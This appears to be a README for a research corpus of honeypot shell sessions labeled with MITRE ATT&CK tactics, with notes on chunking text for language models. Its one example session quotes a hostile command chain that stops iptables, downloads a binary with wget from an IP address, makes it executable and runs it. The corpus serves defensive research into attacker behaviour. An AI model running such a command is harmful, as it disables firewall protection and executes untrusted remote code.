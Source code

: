# HaaS supervised corpus

## Corpus
This folder contains 360 session from the [Honeypot as a Service](https://haas.nic.cz/) collection. The data were labeled under the supervision of a team of experts such that each statement (i.e., chunk of a Unix session separated by ";", "|", "||" or "&&") is assigned a [Mitre Tactic](https://attack.mitre.org/tactics/enterprise/).

For instance, the session:

```shell
etc/init.d/iptables stop ; wget –c http://10.10.10.10:8080/exec ; chmod 777 exec ; ./exec ;
```
Contains 4 statements and is labeled as following:
`Impact -- Execution -- Execution -- Execution`

## Contributing

Sessions were chosen in order to be representative of the Mitre Classes. Still, we welcome contributions from the community to enhance LogPrécis further. If you have any ideas, bug reports, or feature requests, please contact our team at [matteo.boffa@polito.it](mailto:matteo.boffa@polito.it) and [idilio.drago@unito.it](mailto:idilio.drago@unito.it).

## Chunking
LMs can handle strings of fixed size and maximum lenght: if that threshold is exceded, the model simply discard the exceeding text.
To avoid that, NLP experts thought about **chunking**. Chunking here means manually truncating the input text into chunks smaller than the threshold, so that no truncations can occur. 

Particularly, we here use a **contextualized chunking**: that means, each chunks also contain parts of the following and previous chunks, so that the local context is preserved.

The notebook we present serves this purpose: it takes as input a non-curated corpus, and creates chunks when necessary.